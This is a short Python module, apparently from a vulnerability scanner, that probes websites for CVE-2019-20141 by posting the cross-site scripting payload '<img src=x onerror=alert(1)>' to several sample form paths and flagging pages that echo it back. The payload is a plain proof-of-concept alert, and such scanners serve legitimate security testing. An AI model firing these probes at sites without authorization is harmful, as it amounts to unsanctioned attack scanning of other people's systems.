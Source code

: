 #### scan website from cve-2019-20141
```python
#!/usr/bin/env python3

from libs import NewRequest as nq
from libs import post_data
from core import ShowMessage as show
from core import info,bad
from threading import Thread
from queue import Queue
from urllib.parse import urlparse,urljoin

q = Queue()

def add_path(url):
    paths = [
            "data/sample-register-form.php",
            "data/sample-login-form.php",
            "data/autosuggest-remote.php",
            "data/sample-forgotpassword-form.php",
            "data/login-form.php"
            ]
    urls = []
    for path in paths:
        urls.append(urljoin(url,path))
    return urls
def threader():
    while True:
        item = q.get()
        NEON_CVE(item)
        q.task_done()
def run(opts):
    for i in range(opts['threads']):
        p1 = Thread(target=threader)
        p1.daemon = True
        p1.start()
    for url in opts['url']:
        q.put(url)
    q.join()
def NEON_CVE(url):
    urls = add_path(url)
    for u in urls:
        r = nq.Post(u,post_data('q=<img src=x onerror=alert(1)>'))
        if '<img src=x onerror=alert(1)>'.encode('utf-8') in r.content:
            show.bug(bug='Cross-site scripting',payload='<img src=x onerror=alert(1)>',method='GET',parameter='q',target=u,link='q=<img src=x onerror=alert(1)>')
  
```
